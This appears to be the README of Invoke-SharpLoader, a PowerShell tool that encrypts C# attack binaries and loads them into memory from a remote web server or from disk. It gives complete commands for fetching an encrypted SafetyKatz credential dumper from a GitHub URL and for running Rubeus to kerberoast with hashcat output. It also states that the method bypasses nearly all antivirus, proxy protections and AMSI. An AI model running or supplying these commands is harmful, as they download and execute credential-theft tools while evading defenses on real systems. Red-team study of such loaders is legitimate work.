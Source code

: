 # Invoke-SharpLoader
Load encrypted and compressed C# Code from a remote Webserver or from a local file straight to memory and execute it there.

Two scripts are used here. Invoke-SharpEncrypt can be used to encrypt existing C# files. To do this, the following example command can be used.

### Encrypt C# file:

`Invoke-SharpEncrypt -file C:\CSharpFiles\SafetyKatz.exe -password S3cur3Th1sSh1t -outfile C:\CSharpEncrypted\SafetyKatz.enc`

Only full paths to the file are accepted at this point. The encrypted files generated by Invoke-SharpEncrypt can then be hosted on a web server on the Internet or stored on the target system on disk.
Invoke-SharpLoader can be used to decrypt and execute the files in memory. Two examples demonstrate how to load a file from a remote webserver or from disk.

### Load from URL:

`Invoke-SharpLoader -location https://raw.githubusercontent.com/S3cur3Th1sSh1t/Invoke-SharpLoader/master/EncryptedCSharp/SafetyKatz.enc -password S3cur3Th1sSh1t -noArgs`

### Load from DISK:

`Invoke-SharpLoader -location C:\EncryptedCSharp\Rubeus.enc -password S3cur3Th1sSh1t -argument kerberoast -argument2 "/format:hashcat"`

This project was heavily inspired by Cn33liz p0wnedLoader repo here https://github.com/Cn33liz/p0wnedLoader. By encrypting own executables with a 
custom password and hosting them somewhere on the internet nearly all local and Proxy AV-Protections and AMSI can be bypassed. :-)
